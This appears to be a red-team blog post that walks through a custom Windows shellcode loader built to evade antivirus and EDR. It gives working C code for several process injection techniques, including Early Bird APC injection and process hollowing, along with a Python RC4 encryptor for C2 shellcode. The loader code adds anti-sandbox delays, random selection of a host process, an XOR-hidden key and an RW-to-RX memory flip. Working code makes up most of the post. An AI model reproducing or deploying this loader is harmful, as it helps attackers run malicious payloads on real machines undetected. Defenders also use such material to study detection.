





## Introduction

Every red team engagement reaches the same critical junction: you have crafted your payload, built your infrastructure, set up your redirectors and C2, and now you need that payload to execute on a target without being torn apart by the endpoint's security stack. This is where AV evasion separates operators from script kiddies. It is not enough to download a framework, generate a binary, and hope for the best. Modern antivirus and EDR solutions employ layered detection that spans static analysis, behavioral heuristics, in-memory scanning, and kernel-level telemetry. Beating all of those layers requires understanding each one individually and engineering your tooling to address them by design, not by accident.

This post walks through a custom shellcode loader I built from scratch. The loader uses RC4 stream cipher encryption for the payload, XOR-based key obfuscation to hide the decryption key at rest, randomized anti-sandbox delays, dynamic process targeting, and the Early Bird APC injection technique to execute shellcode inside a legitimate Windows process before EDR hooks are installed. I will cover the theory behind process injection, walk through every line of the actual source code, examine the binary from a forensic perspective (packed on disk versus unpacked in memory), and close with an honest assessment of the loader's OPSEC weaknesses and how they could be improved.

The complete source code is available on my GitHub: [Shellcode-Loader---AV-Evasion](https://github.com/GlitchHunter1/Shellcode-Loader---AV-Evasion).

The techniques discussed in this post map to the following MITRE ATT&CK entries:

| Technique | ID | Relevance |
|:---|:---|:---|
| Asynchronous Procedure Call | T1055.004 | Core injection method |
| Obfuscated Files or Information | T1027 | RC4 encrypted shellcode |
| Deobfuscate/Decode Files or Information | T1140 | Runtime RC4 decryption |
| Masquerading | T1036 | Dynamic process selection |
| Process Injection | T1055 | Cross-process shellcode write |

> **Disclaimer:** This project is intended strictly for educational and authorized security research purposes. The techniques described here should only be used in environments where you have explicit written authorization. Unauthorized use is illegal.
{: .prompt-warning }



## Understanding AV Detection Layers

Before building evasion, you need to understand what you are evading. A modern endpoint security product does not rely on a single detection mechanism. Instead, it layers multiple detection strategies so that if one layer misses, the next catches the threat. Thinking about evasion without understanding these layers is like trying to pick a lock without knowing how many pins it has.

The first layer is static signature analysis. When a binary touches disk, the AV engine scans its contents against a database of known malicious patterns. This includes YARA rules that match specific byte sequences, file hash blocklists, and import table analysis that flags binaries importing suspicious API combinations like `VirtualAllocEx` together with `WriteProcessMemory` and `CreateRemoteThread`. Static analysis is the oldest and cheapest detection mechanism, and it is also the easiest to defeat: if the payload bytes on disk do not match any known signature, this layer passes. Encryption solves this entirely.

The second layer is heuristic and behavioral analysis. Rather than matching bytes, the AV monitors what the binary does at runtime. It watches API call sequences, tracks memory allocation patterns (especially RWX regions), observes process creation behavior, and flags suspicious parent-child process relationships. A binary that spawns `svchost.exe` in a suspended state, writes to its memory, and resumes it will trigger behavioral rules regardless of what the payload bytes look like.

The third layer is in-memory scanning. Even if the binary passes static analysis on disk, the AV periodically scans the memory of running processes looking for known shellcode signatures, beacon configurations, and C2 indicators. This is why sleep obfuscation exists: if your implant sits in readable memory during its sleep cycle, the next memory scan will find it.

The fourth layer is sandbox execution. Some AV solutions detonate suspicious binaries in an instrumented virtual environment, watching their behavior for a few seconds before allowing execution on the real system. Sandboxes accelerate time, hook APIs, and look for environmental checks. A loader that sleeps for exactly 5 seconds looks artificial; a loader that sleeps for a random duration derived from system entropy looks more organic.



The loader I built addresses each of these layers. RC4 encryption defeats static signatures. Randomized timing and dynamic process selection defeat behavioral heuristics and sandbox detection. The fact that shellcode is only decrypted in memory at the moment of injection means static analysis never sees the plaintext payload. Where the loader falls short is in-memory scanning after injection, and I will cover that honestly in the OPSEC section.

## Process Injection Theory

Process injection is described by MITRE as a technique under T1055. The core idea is straightforward: inject untrusted code into the address space of a trusted process, causing that code to execute with the security context of the host process. If you inject into `svchost.exe`, your shellcode runs as `svchost.exe`. EDR solutions that whitelist or deprioritize alerts from known system processes will miss it, at least initially.

The high-level steps for any process injection technique are to allocate a new region of memory in the target process, copy the shellcode into that region, and then trigger execution of the shellcode, typically through a thread or callback mechanism. Where techniques diverge is in how they accomplish each step and what detection artifacts they leave behind.

### Classic Injection

The most straightforward form of process injection uses `VirtualAlloc`, `WriteProcessMemory`, and `CreateThread`. This allocates memory in the current process, writes shellcode into it, and creates a new thread pointing at the shellcode.

```c
#include <Windows.h>

int main() {
    unsigned char shellcode[] = "...";

    // Allocate a region of memory in our own process
    auto hMemory = VirtualAlloc(
        NULL,                       // let the OS choose the address
        sizeof(shellcode),          // size of the region
        MEM_COMMIT | MEM_RESERVE,   // commit physical storage
        PAGE_EXECUTE_READWRITE      // memory protection: RWX
    );

    // Write shellcode into the allocated region
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        GetCurrentProcess(),    // handle to our own process
        hMemory,                // destination address
        &shellcode,             // source buffer
        sizeof(shellcode),      // number of bytes
        &bytesWritten           // output: bytes written
    );

    // Create a thread that starts at the shellcode address
    DWORD threadId = 0;
    auto hThread = CreateThread(
        NULL, 0,
        (LPTHREAD_START_ROUTINE)hMemory,  // thread start = shellcode
        NULL, 0, &threadId
    );

    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
}
```

This technique is heavily detected. The combination of RWX memory allocation followed by a new thread pointing to that region is a textbook indicator of shellcode execution. Every modern AV flags this within milliseconds.

### Classic Remote Injection

The same approach can target a different process. An additional step is needed: obtaining a handle to the target process via `OpenProcess`.

```c
#include <Windows.h>

int main(int argc, char* argv[]) {
    unsigned char shellcode[] = "...";
    auto pid = atoi(argv[1]);

    // Open handle to the target process
    auto hProcess = OpenProcess(
        PROCESS_ALL_ACCESS,     // full access rights
        FALSE,
        pid                     // target PID
    );

    if (hProcess == INVALID_HANDLE_VALUE) return 0;

    // Allocate memory in the REMOTE process
    auto hMemory = VirtualAllocEx(
        hProcess,               // target process handle
        NULL, sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );

    // Write shellcode to the remote process
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        hProcess, hMemory,
        &shellcode, sizeof(shellcode),
        &bytesWritten
    );

    // Create a thread in the remote process
    DWORD threadId = 0;
    auto hThread = CreateRemoteThread(
        hProcess, NULL, 0,
        (LPTHREAD_START_ROUTINE)hMemory,
        NULL, 0, &threadId
    );

    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
}
```

This is even noisier from a detection perspective. `OpenProcess` with `PROCESS_ALL_ACCESS` on another process triggers `ObRegisterCallbacks` in the kernel. `CreateRemoteThread` fires `PsSetCreateThreadNotifyRoutine`. Every step generates telemetry that feeds the EDR.

### Thread Hijacking

Anti-virus solutions receive notifications when new threads are created and can inspect what the thread points to. A workaround is to create the thread in a suspended state pointing to a benign function, wait for the AV to scan it, then change the thread context to point at shellcode and resume it.

```c
#include <Windows.h>

void dummy() { /* do nothing */ }

int main() {
    unsigned char shellcode[] = "...";

    auto hMemory = VirtualAlloc(
        NULL, sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );

    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        GetCurrentProcess(), hMemory,
        &shellcode, sizeof(shellcode), &bytesWritten
    );

    // Create suspended thread pointing at harmless dummy function
    DWORD threadId = 0;
    auto hThread = CreateThread(
        NULL, 0,
        (LPTHREAD_START_ROUTINE)&dummy,
        NULL,
        CREATE_SUSPENDED,       // thread does not start yet
        &threadId
    );

    Sleep(5 * 1000);  // give AV time to scan the benign target

    // Get the thread's CPU context
    CONTEXT ctx = { 0 };
    ctx.ContextFlags = CONTEXT_ALL;
    GetThreadContext(hThread, &ctx);

    // Redirect the instruction pointer to our shellcode
    ctx.Rip = (DWORD64)hMemory;
    SetThreadContext(hThread, &ctx);

    ResumeThread(hThread);
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
}
```

The advantage is that when the AV inspects the thread at creation time, it sees a pointer to a legitimate function. The disadvantage is that `SetThreadContext` is itself a monitored API, and modern EDRs correlate the suspended thread creation with the subsequent context change.

### APC Injection

Rather than creating a new thread, this technique queues an Asynchronous Procedure Call on an existing thread. When that thread enters an alertable state (by calling `SleepEx`, `WaitForSingleObjectEx`, or similar), it executes the queued APC. The challenge is finding a thread that will become alertable, which requires enumerating threads in the target process via a thread walk using `CreateToolhelp32Snapshot`.

```c
#include <Windows.h>
#include <tlhelp32.h>

int main(int argc, char* argv[]) {
    unsigned char shellcode[] = "...";
    auto pid = atoi(argv[1]);
    DWORD threadId = 0;

    // Snapshot all threads in the system
    auto hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

    THREADENTRY32 te = { 0 };
    te.dwSize = sizeof(te);
    Thread32First(hSnapshot, &te);

    // Walk threads to find one belonging to our target process
    do {
        if (te.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID)
            + sizeof(te.th32OwnerProcessID)) {
            if (te.th32OwnerProcessID == pid) {
                threadId = te.th32ThreadID;
                break;
            }
        }
        te.dwSize = sizeof(te);
    } while (Thread32Next(hSnapshot, &te));

    if (threadId == 0) return 0;

    auto hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    auto hMemory = VirtualAllocEx(
        hProcess, NULL, sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE
    );

    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        hProcess, hMemory,
        &shellcode, sizeof(shellcode), &bytesWritten
    );

    auto hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, threadId);

    // Queue APC: when thread becomes alertable, shellcode fires
    QueueUserAPC((PAPCFUNC)hMemory, hThread, 0);
}
```

The main risk with this approach is that there is no guarantee the selected thread will ever enter an alertable state. If it does not, the shellcode never executes. You could queue an APC on every thread in the process, but that would almost certainly crash the process as each thread's original work gets disrupted.

### Early Bird APC Injection

This is the technique my loader uses, and it elegantly solves the alertability problem. Instead of targeting an existing process where you cannot control thread state, you spawn a brand new process in a suspended state, queue your APC on its primary thread, and then resume the process. The primary thread of a newly created process is guaranteed to enter an alertable state during its initialization sequence, so the APC is guaranteed to fire.

```c
#include <Windows.h>

int main() {
    unsigned char shellcode[] = "...";

    STARTUPINFOW si = { 0 };
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW;

    PROCESS_INFORMATION pi = { 0 };

    // Spawn a legitimate process in a suspended state
    CreateProcess(
        L"C:\\Windows\\System32\\cmd.exe",
        NULL, NULL, NULL, FALSE,
        CREATE_SUSPENDED,       // process exists but has not executed
        NULL, L"C:\\Windows\\System32",
        &si, &pi
    );

    // Allocate memory in the new process
    auto hMemory = VirtualAllocEx(
        pi.hProcess, NULL, sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE
    );

    // Write shellcode to the allocated region
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        pi.hProcess, hMemory,
        &shellcode, sizeof(shellcode), &bytesWritten
    );

    // Queue APC on the primary thread
    QueueUserAPC((PAPCFUNC)hMemory, pi.hThread, 0);

    // Resume: the APC fires during initialization, BEFORE EDR hooks
    ResumeThread(pi.hThread);

    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
}
```

The critical advantage here is timing. EDR products inject their monitoring DLLs into processes during the loading phase. When a process is created suspended and an APC is queued on its main thread, that APC executes during the very early stages of process initialization, potentially before the EDR's userland hooks are installed. This is why the technique is called "Early Bird": the shellcode gets there first.

### Process Hollowing

Process hollowing goes a step further by replacing the legitimate PE's code entirely. A process is spawned suspended, and then the original PE's entry point is overwritten with shellcode. When the process resumes, the primary thread jumps to your shellcode instead of the original program code.

This requires parsing the PE structure from memory, which involves `NtQueryInformationProcess` to find the PEB (Process Environment Block), reading the `ImageBaseAddress` from the PEB, then walking the DOS header to find `e_lfanew`, using that to locate the NT headers, and finally reading `OptionalHeader.AddressOfEntryPoint` to find the exact address to overwrite.

```c
#include <Windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll.lib")

int main() {
    unsigned char shellcode[] = "...";

    STARTUPINFOW si = { 0 };
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW;
    PROCESS_INFORMATION pi = { 0 };

    CreateProcess(
        L"C:\\Windows\\System32\\cmd.exe",
        NULL, NULL, NULL, FALSE,
        CREATE_SUSPENDED, NULL,
        L"C:\\Windows\\System32", &si, &pi
    );

    // Query PEB address from the suspended process
    PROCESS_BASIC_INFORMATION pbi = { 0 };
    ULONG returnLength;
    NtQueryInformationProcess(
        pi.hProcess, ProcessBasicInformation,
        &pbi, sizeof(pbi), &returnLength
    );

    // Image base address is at PEB + 0x10 on x64
    auto lpBaseAddress = (LPVOID)((DWORD64)(pbi.PebBaseAddress) + 0x10);

    LPVOID baseAddress = 0;
    SIZE_T bytesRead = 0;
    ReadProcessMemory(
        pi.hProcess, lpBaseAddress,
        &baseAddress, 8, &bytesRead
    );

    // Read DOS header to get e_lfanew
    IMAGE_DOS_HEADER dHeader = { 0 };
    ReadProcessMemory(
        pi.hProcess, baseAddress,
        &dHeader, sizeof(dHeader), &bytesRead
    );

    // Calculate NT header location
    auto lpNtHeader = (LPVOID)((DWORD64)baseAddress + dHeader.e_lfanew);

    IMAGE_NT_HEADERS ntHeaders = { 0 };
    ReadProcessMemory(
        pi.hProcess, lpNtHeader,
        &ntHeaders, sizeof(ntHeaders), &bytesRead
    );

    // Calculate entry point address
    auto entryPoint = (LPVOID)(
        (DWORD64)baseAddress + ntHeaders.OptionalHeader.AddressOfEntryPoint
    );

    // Overwrite the entry point with shellcode
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        pi.hProcess, entryPoint,
        shellcode, sizeof(shellcode), &bytesWritten
    );

    ResumeThread(pi.hThread);
}
```

Process hollowing is powerful but generates more forensic artifacts: the PEB still points to the original image, the process's loaded modules include the original PE, yet the executable code in memory no longer matches the file on disk. Tools like PE-sieve and Moneta detect this discrepancy trivially.

## The Custom Loader: Deep Dive

Now we get to the main event. This section walks through the actual source code of my loader, file by file, function by function. Everything here is pulled directly from the [repository](https://github.com/GlitchHunter1/Shellcode-Loader---AV-Evasion).

### The Encryption Pipeline: shell-enc.py

Before the loader can do anything, we need encrypted shellcode. The `shell-enc.py` script handles this. It reads raw shellcode from `data.bin`, encrypts it with RC4 using the key `WindowsUpdateAgent2024`, and outputs a C-formatted byte array that can be pasted directly into `loader.c`.

```python
import sys
from Crypto.Cipher import ARC4

key = b"WindowsUpdateAgent2024"
with open("data.bin", "rb") as f:
    shellcode = f.read()

cipher = ARC4.new(key)
encrypted = cipher.encrypt(shellcode)

print("unsigned char encrypted_shellcode[] = {")
for i, byte in enumerate(encrypted):
    if i % 12 == 0:
        print("\n    ", end="")
    print(f"0x{byte:02X}, ", end="")
print("\n};")
print(f"unsigned int shellcode_size = {len(encrypted)};")
```

The workflow is: generate raw shellcode using `msfvenom` or export it from your C2 framework (Havoc, Cobalt Strike, Sliver), save it as `data.bin`, run `python shell-enc.py`, and paste the output into the loader source.

RC4 was chosen deliberately for several reasons. It is a stream cipher, which means the output is the same length as the input, with no block padding to deal with. The implementation is compact (under 50 lines of C), so it does not inflate the loader binary or introduce external dependencies. And unlike AES, RC4 does not require separate IV management. The tradeoff is that RC4 is considered cryptographically broken for communications security, but for payload encryption at rest, where we control both endpoints and the key never leaves the binary, cryptographic strength against a determined cryptanalyst is not the goal. The goal is to make the encrypted blob look like high-entropy random data to a signature scanner, and RC4 accomplishes that.

### The Loader: loader.c, Step by Step

The loader's execution flow can be broken into seven distinct phases. Let us walk through each one.

#### Phase 1: Anti-Sandbox Timing Delay

```c
void random_delay() {
    SYSTEMTIME st;
    GetSystemTime(&st);
    DWORD seed = st.wMilliseconds;

    // Linear congruential generator for pseudo-random delay
    seed = (seed * 1103515245 + 12345) & 0x7fffffff;
    DWORD delay = 1000 + (seed % 4000); // 1 to 5 seconds

    Sleep(delay);
}
```

The very first thing the loader does upon execution is sleep for a random duration between 1 and 5 seconds. The seed for the delay comes from the current system time's millisecond component, which means every execution produces a different delay. This serves two purposes. First, automated sandboxes often accelerate or skip sleep calls; a delay that varies per execution makes it harder to fingerprint. Second, it introduces a time gap between the loader launching and the first suspicious API call, which can cause time-sensitive behavioral rules to miss the correlation.

The pseudo-random number generator used here is a classic linear congruential generator (the same constants used by the C standard library's `rand()`). It is not cryptographically secure, but it does not need to be. It just needs to produce varying delays.

#### Phase 2: Dynamic Process Selection

```c
const char* GetTargetProcess() {
    const char* processes[] = {
        "svchost.exe",
        "dllhost.exe",
        "rundll32.exe",
        "explorer.exe",
        "notepad.exe"
    };

    DWORD tick = GetTickCount();
    int index = tick % (sizeof(processes) / sizeof(processes[0]));

    return processes[index];
}
```

Rather than always targeting the same process, the loader randomly selects from a pool of five common Windows processes using `GetTickCount()` as the entropy source. This defeats detection rules that look for a specific, hardcoded parent-child process relationship. If every execution of the loader spawns a different process, writing a static behavioral rule becomes significantly harder.

The choice of processes is deliberate. `svchost.exe` and `dllhost.exe` are Windows service hosts that routinely have many instances running. `rundll32.exe` is a legitimate DLL execution host. `explorer.exe` is the user's shell. `notepad.exe` is included as a less suspicious fallback. Each of these is a real System32 binary that a defender would expect to see running on a workstation.

#### Phase 3: Suspended Process Creation

```c
BOOL CreateSuspendedProcess(LPCSTR lpProcessName, DWORD* dwProcessId,
                            HANDLE* hProcess, HANDLE* hThread) {
    CHAR lpPath[MAX_PATH * 2];
    CHAR WnDr[MAX_PATH];
    STARTUPINFOA Si = { 0 };
    PROCESS_INFORMATION Pi = { 0 };

    Si.cb = sizeof(STARTUPINFOA);

    // Resolve %WINDIR% dynamically
    if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {
        return FALSE;
    }

    // Build full path: C:\Windows\System32\svchost.exe
    sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);

    if (!CreateProcessA(
        NULL, lpPath, NULL, NULL, FALSE,
        CREATE_SUSPENDED | CREATE_NO_WINDOW,  // suspended + hidden
        NULL, NULL, &Si, &Pi)) {
        return FALSE;
    }

    *dwProcessId = Pi.dwProcessId;
    *hProcess = Pi.hProcess;
    *hThread = Pi.hThread;

    return (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL);
}
```

The `CreateProcessA` call uses two important flags. `CREATE_SUSPENDED` means the process is created but its primary thread never starts executing. The process exists in memory with its PE loaded, its PEB initialized, and its primary thread ready, but frozen. `CREATE_NO_WINDOW` prevents a visible console window from appearing, which would be an obvious indicator to the user.

Notice that the path is resolved dynamically using the `WINDIR` environment variable rather than hardcoding `C:\Windows`. This handles edge cases where Windows is installed on a non-standard drive letter.

The `main()` function also includes fallback logic: if the first randomly selected process fails to launch (perhaps because the binary does not exist or is blocked), the loader falls back to `notepad.exe` as a last resort.

```c
if (!CreateSuspendedProcess(targetProcess, &dwProcessId, &hProcess, &hThread)) {
    targetProcess = "notepad.exe";
    if (!CreateSuspendedProcess(targetProcess, &dwProcessId, &hProcess, &hThread)) {
        return 1;
    }
}
```

#### Phase 4: Key Deobfuscation and RC4 Decryption

This is one of the more interesting evasion techniques in the loader. The RC4 key is never stored in plaintext in the binary. Instead, each character of `WindowsUpdateAgent2024` is XOR'd with `0x55` at compile time, producing a garbled array of bytes in the `.data` section.

```c
char* GetDecryptionKey() {
    static char key[KEY_LENGTH + 1];
    const char obfuscated[] = {
        'W' ^ 0x55, 'i' ^ 0x55, 'n' ^ 0x55, 'd' ^ 0x55,
        'o' ^ 0x55, 'w' ^ 0x55, 's' ^ 0x55, 'U' ^ 0x55,
        'p' ^ 0x55, 'd' ^ 0x55, 'a' ^ 0x55, 't' ^ 0x55,
        'e' ^ 0x55, 'A' ^ 0x55, 'g' ^ 0x55, 'e' ^ 0x55,
        'n' ^ 0x55, 't' ^ 0x55, '2' ^ 0x55, '0' ^ 0x55,
        '2' ^ 0x55, '4' ^ 0x55, 0
    };

    // Deobfuscate at runtime by XOR'ing each byte with 0x55
    for (int i = 0; i < KEY_LENGTH; i++) {
        key[i] = obfuscated[i] ^ 0x55;
    }
    key[KEY_LENGTH] = 0;

    return key;
}
```

When a reverse engineer or AV scanner runs `strings` against the compiled binary, they will not find `WindowsUpdateAgent2024` anywhere. Instead, they will see the XOR'd bytes, which look like random characters. At runtime, the `GetDecryptionKey()` function reverses the XOR to reconstruct the plaintext key in a stack-allocated buffer, uses it for decryption, and then the function returns. The plaintext key exists in memory only briefly.



The decryption itself is a clean RC4 implementation:

```c
void rc4_decrypt(unsigned char *data, int datalen,
                 const unsigned char *key, int keylen) {
    RC4_CTX ctx;
    rc4_init(&ctx, key, keylen);

    for (int i = 0; i < datalen; i++) {
        data[i] ^= rc4_byte(&ctx);
    }
}
```

The `rc4_init` function builds the S-box permutation array using the Key Scheduling Algorithm (KSA), and `rc4_byte` generates the pseudo-random keystream using the Pseudo-Random Generation Algorithm (PRGA). Each shellcode byte is XOR'd with the corresponding keystream byte, reversing the encryption.

#### Phase 5: Memory Allocation with Padding

```c
BOOL InjectShellcodeToRemoteProcess(HANDLE hProcess, PBYTE pShellcode,
                                     SIZE_T sSizeOfShellcode, PVOID* ppAddress) {
    SIZE_T sNumberOfBytesWritten = NULL;
    DWORD dwOldProtection = NULL;

    // Add random padding to the allocation size
    SIZE_T paddedSize = sSizeOfShellcode + (GetTickCount() % 1024);

    *ppAddress = VirtualAllocEx(
        hProcess, NULL, paddedSize,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE              // initially RW, not RWX
    );
    if (*ppAddress == NULL) return FALSE;
```

Two details matter here. First, the allocation size includes random padding of 0 to 1023 bytes derived from `GetTickCount()`. Some AV heuristics maintain databases of known shellcode sizes (for example, a Meterpreter reverse HTTPS stager is typically around 510 bytes). By padding the allocation, the actual size no longer matches these known values.

Second, the memory is allocated as `PAGE_READWRITE`, not `PAGE_EXECUTE_READWRITE`. Allocating RWX memory is a significant red flag that many EDRs immediately alert on. By allocating as RW first, writing the shellcode, and then changing permissions to RX, the loader avoids the RWX indicator.

#### Phase 6: Shellcode Write and Memory Protection Flip

```c
    if (!WriteProcessMemory(hProcess, *ppAddress, pShellcode,
                            sSizeOfShellcode, &sNumberOfBytesWritten)
        || sNumberOfBytesWritten != sSizeOfShellcode) {
        VirtualFreeEx(hProcess, *ppAddress, 0, MEM_RELEASE);
        return FALSE;
    }

    // Flip from RW to RX (execute-read, not execute-read-write)
    if (!VirtualProtectEx(hProcess, *ppAddress, sSizeOfShellcode,
                          PAGE_EXECUTE_READ, &dwOldProtection)) {
        // Fallback to RWX if RX fails
        VirtualProtectEx(hProcess, *ppAddress, sSizeOfShellcode,
                         PAGE_EXECUTE_READWRITE, &dwOldProtection);
    }

    return TRUE;
}
```

After writing the decrypted shellcode via `WriteProcessMemory`, the loader calls `VirtualProtectEx` to change the memory protection from `PAGE_READWRITE` to `PAGE_EXECUTE_READ`. This is the RW to RX flip pattern that avoids ever having a region that is simultaneously writable and executable. If the RX protection fails for any reason, the loader falls back to RWX as a last resort.

#### Phase 7: APC Queue and Execution

```c
// Queue APC on the suspended process's primary thread
QueueUserAPC((PTHREAD_START_ROUTINE)pAddress, hThread, NULL);

// Resume the process: APC fires during initialization
ResumeThread(hThread);

Sleep(500);  // brief delay for cleanup

// Clean up
LocalFree(shellcode_copy);
CloseHandle(hThread);
CloseHandle(hProcess);
```

This is the Early Bird moment. `QueueUserAPC` adds the shellcode address as an APC routine to the suspended process's primary thread. When `ResumeThread` is called, the process begins its initialization sequence. During initialization, the thread enters an alertable state, which triggers the APC, which jumps to our shellcode. The shellcode executes before the process has finished loading all of its DLLs, which means it runs before EDR userland hooks are fully installed.

